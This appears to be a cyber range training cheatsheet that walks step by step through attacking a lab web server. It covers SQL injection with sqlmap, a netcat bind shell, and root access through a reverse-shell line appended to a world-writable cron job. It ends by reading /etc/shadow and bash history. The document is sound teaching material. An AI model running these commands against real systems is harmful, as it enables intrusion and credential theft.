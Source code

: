 # CDIS Cyber Range | EU Cyber Attaché Exercise Cheatsheet

## 1) Identify the network services

```sh
nmap 10.0.3.193
```

## 2) Signup the ewebpage

- `http://10.0.3.193/php/inscription.php`

## 3) Identify an old version of a webpage

- `http://10.0.3.193/php/recherche_old.php` 
  
## 4) Misuse input validation vulnerability

- Enter a single quote (`'`)  into the text field and press the button
- Enter `' or 1=1#` into the text field and press the button

## 5) Retrieve arbitrary data from the database through SQL injection

- Copy the request below and paste it into a text file called `sqli.txt`
```sh
POST /php/recherche_old.php HTTP/1.1
Host: 10.0.3.193
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://10.0.3.193
Connection: close
Referer: http://10.0.3.193/php/recherche_old.php
Cookie: PHPSESSID=a62f5c5fio2i8l8spkas8mfjt6
Upgrade-Insecure-Requests: 1

recherche=emre&btnRechercher=Rechercher
```
- Copy the PHPSESSID from your browser and replace the value found in the `sqli.txt`

### 5.1 Execute `sqlmap` to identify database names

```sh
sqlmap -r sqli.txt --dbms=mysql --dbs 
```

### 5.2 Execute `sqlmap` to get the records found in the in the `cuiteur` database
```sh
sqlmap -r sqli.txt --dbms=mysql -D cuiteur --dump
```

## 6) Grant the initial shell access

### 6.1 Execute `sqlmap` to grant a SQL shell connection via SQL injection
```sh
sqlmap -r sqli.txt --dbms=mysql --os-shell
```

### 6.2 Execute OS commands through the SQL shell connection
```sh
whoami

hostname

pwd
```

### 6.3 Execute the following command to have a more convenient bind shell access
```sh
rm /tmp/pipe; mkfifo /tmp/pipe; /bin/sh /tmp/pipe | nc -l 5555 > /tmp/pipe
```

### 6.4 Execute the following command to establish a `nc` bind connection (Switch to another terminal on your **Kali**)
```sh
nc 10.0.3.193 5555
```

### 6.5 Execute some OS commands through the `nc` connection
```sh
whoami

pwd

locate flag{

cat /var/www/flag{3b200052e26a8c685c53ab507ce4dca76cf53d9936fad0}.jpg
```

### 6.6 Identify a file with a promising filename
```sh
cd ..

ls

ls /var/www/upload

# Download the file from the web browser
http://10.0.3.193/upload/leaks.zip

unzip leaks.zip
```

### 6.7 Realize also that you have limited access
```sh
cat /etc/shadow
```

## 7) Identify a vulnerable configuration

### 7.1 Identify a world-writable directory
```sh
find / -writable -type f ! -path "/proc/*" ! -path "/sys/*" ! -path "/var/www/*" -exec ls -al {} \; 2>/dev/null
```

## 8) Escalate privileges to root

### 8.1 Examine the cron job with write access for everyone 
```sh
cd /etc/cron.hourly
cat cuiteur-cleaning
```
### 8.2 Open a listener on the **Kali** for a reverse shell connection with root privileges
```sh
sudo nc -nlvp 7777
``` 
### 8.3 Edit the cron job to have a reverse shell payload inside
```sh
echo "rm /tmp/pipe; mkfifo /tmp/pipe; nc 192.168.0.2 7777 0</tmp/pipe | /bin/sh >/tmp/pipe 2>&1" >> cuiteur-cleaning
```

### 8.4 Execute some OS commands through the `nc` connection
```sh
whoami

pwd

locate flag{

cat /etc/shadow
```

## 9) Identify a plaintext password in the bash history  

### 9.1 Perform post-exploitation activities
```sh
cat /root/.bash_history
```

### 9.2 Access the password-protected file
```sh
unzip -P "x5^#CNYK-Ng@MkHZR748" /home/emre/Downloads/leaks.zip
```
